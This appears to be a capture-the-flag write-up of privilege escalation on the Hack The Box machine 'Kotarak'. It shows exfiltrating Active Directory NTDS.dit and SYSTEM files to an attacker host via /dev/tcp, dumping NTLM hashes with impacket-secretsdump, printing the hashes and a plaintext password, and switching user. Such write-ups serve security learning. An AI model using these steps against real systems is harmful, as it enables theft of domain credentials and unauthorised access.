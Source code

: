 # PrivEsc

![](vx_images/3505793727500.png)

![](vx_images/1841956098325.png)


# Pentest Data
```
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -la
total 28312
drwxr-xr-x 2 tomcat tomcat     4096 Jul 21  2017 .
drwxr-xr-x 3 tomcat tomcat     4096 Jul 21  2017 ..
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

# Let's upload these two files to our box

```bash
tomcat@kotarak-dmz:pentest_data$ cat 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit > /dev/tcp/10.10.14.9/9001
tomcat@kotarak-dmz:pentest_data$ cat 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin > /dev/tcp/10.10.14.9/9001
```


![](vx_images/3024195698354.png)


[The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.](https://www.ultimatewindowssecurity.com/blog/default.aspx?d=10/2017)


```bash
$ impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL > server/output
```

![](vx_images/5956096972626.png)

```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/kotarak]
└─$ grep "atanas\|Administrator" server/output | awk -F: '{print $1":"$4}' | head -n 2
Administrator:e64fe0f24ba2489c05e64354d74ebd11
atanas:2b576acbe6bcfda7294d6bd18041b8fe
```

![](vx_images/1791579212903.png)

```bash
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ su - atanas
Password: f16tomcat!	
atanas@kotarak-dmz:~$ 
```
Unfortunately, ssh is acting weird I couldn't log in through ssh. Nevertheless we got user atanas